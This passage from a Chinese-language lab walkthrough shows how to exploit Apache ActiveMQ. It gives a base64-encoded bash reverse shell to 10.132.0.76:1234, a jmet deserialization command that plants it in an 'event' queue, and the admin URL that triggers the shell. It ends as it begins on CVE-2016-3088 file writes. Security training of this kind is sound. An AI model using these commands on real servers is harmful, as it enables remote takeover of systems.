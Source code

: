 然后base64编码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5Z39ibj7RYD0sQEDVvH6Z9BkWic1cm2uLKpN8prfRvJb5GPicuw6Oa1Im6w/640?wx_fmt=png&from=appmsg "")  
  
  
```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC43Ni8xMjM0IDA+JjE=
```  
  
  
使用下载的工具，替换base64编码和靶机IP端口  
  
10.22.221.151为靶机IP，61616端口为ActiveMQ的工作端口用来传递消息  
  
  
终端运行命令  
```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC43Ni8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 10.22.221.151 61616
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZZlUy4M5IL8GUaZwBl4y7BTnCuUXFIEIy9vBswxQMIqUyft3xjiaVVBw/640?wx_fmt=png&from=appmsg "")  
  
  
这个工具运行成功之后，会给目标ActiveMQ添加一个名为event的队列  
  
  
同时监听本机端口1234  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZBEvictT1pMQKvvaSfthicaOsCZRkoW7bKJ7sj7VNCNP0QYkYKx41pX5g/640?wx_fmt=png&from=appmsg "")  
  
  
接下来，我们只要去访问这个消息队列，点击触发就可以反弹shell  
  
  
访问路径页面 /admin/browse.jsp?JMSDestination=event  
```
http://10.22.221.151:8161/admin/browse.jsp?JMSDestination=event
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZGTBDf25pjiaxSDyXk5KVL6f00aslUVOV0WzB2XiaJK7UVQ6OvNeo3eKA/640?wx_fmt=png&from=appmsg "")  
  
  
点击查看Message ID  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZARgfCGxYVl4cBRk29ms9ic61X9icibxz6oFoqVDA2jHOFwSwAVZ3NS33g/640?wx_fmt=png&from=appmsg "")  
  
  
  
成功收到会话，并且可以执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZPnliaXnRmG2e94giakzuTWFicvw84iayh0aF7Iyjy3tBWUqCuoxfOUcn3A/640?wx_fmt=png&from=appmsg "")  
  
  
  
ActiveMQ任意文件写入漏洞（CVE-2016-3088）  
  
ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；  
  
admin和api都需要登录后才能使用，fileserver无需登录。  
  
fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：  
  